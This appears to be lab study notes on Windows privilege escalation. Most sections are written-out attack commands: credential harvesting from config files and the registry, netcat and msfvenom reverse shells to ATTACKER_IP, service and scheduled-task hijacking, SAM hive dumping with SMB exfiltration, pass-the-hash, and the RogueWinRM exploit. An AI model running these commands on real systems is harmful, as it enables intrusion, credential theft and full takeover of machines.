


# Window Privilege Escalation

Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:


*    Misconfigurations on Windows services or scheduled tasks
*    Excessive privileges assigned to our account
*    Vulnerable software
*    Missing Windows security patches


## Windows Users

* **Administrators**: These users have the most privileges. They can change any system configuration parameter and access any file in the system.
* **Standard Users**: These users can access the computer but only perform limited tasks. Typically these users can not make permanent or essential changes to the system and are limited to their files.

*In addition to that, you will usually hear about some special built-in accounts used by the operating system in the context of privilege escalation:*
* **SYSTEM / LocalSystem**: An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators.
* **Local Service**: Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.
* **Network Service**: Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.

## Harvesting Passwords

### Unattended Windows Installations

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:


*    C:\Unattend.xml
*    C:\Windows\Panther\Unattend.xml
*    C:\Windows\Panther\Unattend\Unattend.xml
*    C:\Windows\system32\sysprep.inf
*    C:\Windows\system32\sysprep\sysprep.xml

As part of these files, you might encounter credentials:

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell History

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a `cmd.exe` prompt.

```sh
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note**: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

### Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `savecred` option, as seen below.

```
runas /savecred /user:admin cmd.exe
```

### IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:


*    C:\inetpub\wwwroot\web.config
*    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

**Note**: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

### Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the `schtasks`  command without any options. To retrieve detailed information about any of the services, you can use a command like the following one: 

```
C:\> schtasks /query /tn vulntask /fo list /v
```

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:

```
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:

```
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

```sh
nc -lvp 4444
```

### AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f 
msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Abusing Service Misconfigurations

#### Windows Services


Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command.

```
C:\> sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem
```

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. 

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`.

#### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler:

```
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```

We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

```
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

##### Exploit

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

```sh
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 
-f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

We can then pull the payload from Powershell with the following command:

```
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

```
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

We start a reverse listener on our attacker machine:

```sh
user@attackerpc$ nc -lvp 4444
```

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart. Use the following commands from a cmd.exe command prompt:

```
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```
**Note**: PowerShell has `sc`  as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:

```sh
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
```

#### Unquoted Service Paths


When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

###### Example:

```
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

When the SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:

* `C:\MyPrograms\Disk.exe`
* `C:\MyPrograms\Disk Sorter.exe`
* `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:


1.    First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2.    If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3.    If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under `c:\MyPrograms`. By default, this inherits the permissions of the `C:/` directory, which allows any user to create files and folders in it. 

##### Exploit

Create exe-service payload, start a web server so the target can access the payload, then start listener for the reverse shell:

```sh
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444
-f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server

user@attackerpc$ nc -lvp 4444
```
Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

```
C:\> wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

C:\> move C:\Users\thm-unpriv\rev-svc.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

Once the service gets restarted, your payload should execute:

```sh
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
```

#### Insecure Service Permissions

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite.

```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

##### Exploit

Create exe-service payload, start a web server so the target can access the payload, then start listener for the reverse shell:

```sh
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444
-f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server

user@attackerpc$ nc -lvp 4444
```
`wget` file from the attacker then grant permissions to everyone.

```
C:\> wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

C:\> icacls C:\Users\thm-unpriv\rev-svc.exe /grant Everyone:F
        Successfully processed 1 files.
```

To change the service's associated executable and account, we can use the following command:

```
C:\> sc.exe config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

```
C:\> sc stop THMService
C:\> sc start THMService
```

And we will receive a shell back in our attacker's machine with SYSTEM privileges:

```sh
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
```

### Abusing Dangerous Privileges

#### Windows Privileges

Privileges are rights that an account has to perform specific system-related tasks. These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.

Each user has a set of assigned privileges that can be checked with the following command:

```
whoami /priv
```

A complete list of available privileges on Windows systems is available [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.

#### Examples

##### SeBackup / SeRestore

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.

This account is part of the "Backup Operators" group, which by default is granted the SeBackup and SeRestore privileges. We will need to open a command prompt using the "Open as administrator" option to use these privileges.

Once on the command prompt, we can check our privileges with the following command:

```
C:\> whoami /priv
```

To backup the SAM and SYSTEM hashes, we can use the following commands:

```
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method.

```sh
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup 
-password CopyMaster555 public share
```

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our AttackBox: 

```
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```
And use impacket to retrieve the users' password hashes:

```sh
user@attackerpc$ cd share
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive 
-system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

```sh
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py 
-hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 
administrator@MACHINE_IP

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

##### SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.

To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. 

We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen.

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like.

To replace utilman, we will start by taking ownership of it with the following command:

```
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user 
"WINPRIVESC2\thmtakeownership".
```

To give your user full permissions over utilman.exe you can use the following command: 

```
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

After this, we will replace utilman.exe with a copy of cmd.exe:

```
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
```

To trigger utilman, we will lock our screen from the start button.

And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges.

##### SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.

In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs. Internet Information Services (IIS) will also create a similar default account called "iis apppool\defaultapppool" for web applications.

To elevate privileges using such accounts, an attacker needs the following: 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

###### Example

We will use RogueWinRM exploit to accomplish both conditions.

Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:

```
http://MACHINE_IP/
```

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:



To use RogueWinRM, we first need to upload the exploit to the target machine.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. 

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

```sh
user@attackerpc$ nc -lvp 4442
```

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```



The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`. 

If all was correctly set up, you should expect a shell with SYSTEM privileges:

```
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```

### Abusing Vulnerable Software

#### Unpatched Software

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the `wmic` tool to list software installed on the target system and its versions.

```
wmic product get name,version,vendor
```

It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.

Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like exploit-db, packet storm or plain old Google, amongst many others.

### Other Resources

* [PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [Priv2Admin - Abusing Windows Privileges](https://github.com/gtworek/Priv2Admin)
* [RogueWinRM Exploit](https://github.com/antonioCoco/RogueWinRM)
* [Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)
* [Decoder's Blog](https://decoder.cloud/)
* [Token Kidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)
* [Hacktricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
